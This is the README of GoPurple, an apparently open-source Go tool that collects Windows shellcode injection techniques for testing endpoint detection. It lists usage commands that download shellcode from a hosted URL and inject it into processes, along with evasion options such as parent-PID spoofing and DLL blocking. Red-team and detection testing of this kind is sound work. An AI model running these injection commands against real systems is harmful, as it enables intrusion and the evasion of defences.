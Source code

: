# GoPurple

This project is a simple collection of various shell code injection techniques, aiming to streamline the process of endpoint detection evaluation, beside challenging myself to get into Golang world.




# Installation

1 - Requires [go](https://golang.org/dl/) installed on a windows machine.

2-  Build the application from the project's directory: go build gopurple.go


```
  _____                              _
  / ____|                            | |
 | |  __  ___  _ __  _   _ _ __ _ __ | | ___
 | | |_ |/ _ \| '_ \| | | | '__| '_ \| |/ _ \
 | |__| | (_) | |_) | |_| | |  | |_) | |  __/
  \_____|\___/| .__/ \__,_|_|  | .__/|_|\___|
              | |              | |
              |_|              |_|   by @s3cdev

 -a string
        Program command line arguments
  -b string
        block DLL mode (nonms/onlystore for QueueUserAPC )
  -p int
        Process ID to inject shellcode into
  -prog string
        program to inject into
  -t string
        shellcode injection technique to use:
         1: CreateFiber
         2: syscall
         3: CreatetThreadNative
         4: CreateProcess
         5: EtwpCreateEtwThread
         6: CreateRemoteThread
         7: RtlCreateUserThread
         8: CreateThread
         9: CreateRemoteThreadNative
         10: CreateProcessWithPipe
         11: QueueUserAPC
         12: CreateThreadpoolWaitpool
         13: BananaPhone
  -u string
        URL hosting the shellcode

```




# Examples:

A shellcode needs to be generated,this can be done using tools such as [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) or [shad0w](https://github.com/bats3c/shad0w). Then the shellcode needs to be hosted to be remotely downloaded and executed on the remote machine.
For the sake of clarity, the below demos illustrate different ways of using the tool.

1 - Shellcode injection using BananaPhone method + Shad0w as the shellcode generator

![](demo1.gif)




2 - Shellcode injection using QueueUserAPC technique + Shad0w as the shellcode generator +  spoofing the parent ID (explorer as the parent ID) +  process launching by spoofed parent that contains the shellcode(calc) + protecting the process from unsigned DLL hook, so only Microsoft signed DLL can hook into the process.

![](demo2.gif)


3- Shellcode injection using CreateFiber + msfvenom as the shellcode generator

![](demo3.gif)

# How To Use:

```
1 - gopurple.exe -u urlhostingpayload -t 1 (CreateFiber)

2 - gopurple.exe -u urlhostingpayload -t 2 (Syscall)

3 - gopurple.exe -u urlhostingpayload -t 3 (CreatetThreadNative)

4 - gopurple.exe -u urlhostingpayload -t 4 (CreateProcess)

5 - gopurple.exe -u urlhostingpayload -t 5 (EtwpCreateEtwThread)

6 - gopurple.exe -u urlhostingpayload -t 6 -p tagetprocess (CreateRemoteThread)

7 - gopurple.exe -u urlhostingpayload -t 7 -p tagetprocess (RtlCreateUserThread)

8 - gopurple.exe -u urlhostingpayload -t 8 //(CreateThread)

9 - gopurple.exe -u urlhostingpayload -t 9 -p tagetprocess (CreateRemoteThreadNative)

10 - gopurple.exe -u urlhostingpayload -t 10 -prog porgram -a processargument (ex:C:\Windows\System32\WindowsPowerShell\v1.0) and processargument(ex:Get-Process)  (CreateProcessWithPipe)

11 - gopurple.exe -u urlhostingpayload -t 11 -p targetpidasparentprocess -prog programtoinjectshellcodeinto -b methodtoblockdll(nonms or onlystore)  (QueueUserAPC)

nonms = only DLLs that are signed by Microsoft can hook into the process

onlystore = only Microsoft store application's process can hook into the process  

12 -  gopurple.exe -u urlhostingpayload -t 12 (CreateThreadpoolWaitpool)
 
13 - gopurple.exe -u urlhostingpayload -t 13 (BananaPhone)
```


# Acknowledgments:

All the credits go to following guys for their awesome researches,tools and inspiration: 

* [ne0nd0g](https://twitter.com/ne0nd0g): Most of the codes and techniques

* [spotheplanet](https://twitter.com/spotheplanet): The [blogpost](https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait) inspired me to convert the method to Golang

* [_d00mfist](https://twitter.com/_d00mfist): Great implementation of QueueUserAPC technique in Golang 

* [c__sto](https://twitter.com/c__sto): Amazing BananPhone technique 

* [_batsec_](https://twitter.com/_batsec_): The great shad0w

* [chiragsavla94](https://twitter.com/chiragsavla94): Inspired from [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection)


# References

(https://github.com/Ne0nd0g/go-shellcode)

(https://www.ired.team/)

(https://github.com/D00MFist/Go4aRun)

(https://posts.specterops.io/going-4-a-run-eb263838b944)

(https://github.com/C-Sto/BananaPhone)

(https://blog.xpnsec.com/protecting-your-malware)

(https://github.com/3xpl01tc0d3r/ProcessInjection)


# Future Plans

* Shellcode Encryption
* More structured code


# Legal Disclaimer
This project is made for educational and ethical testing purposes only.Usage of GoPurple for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developer assume no liability and are not responsible for any misuse or damage caused by this program






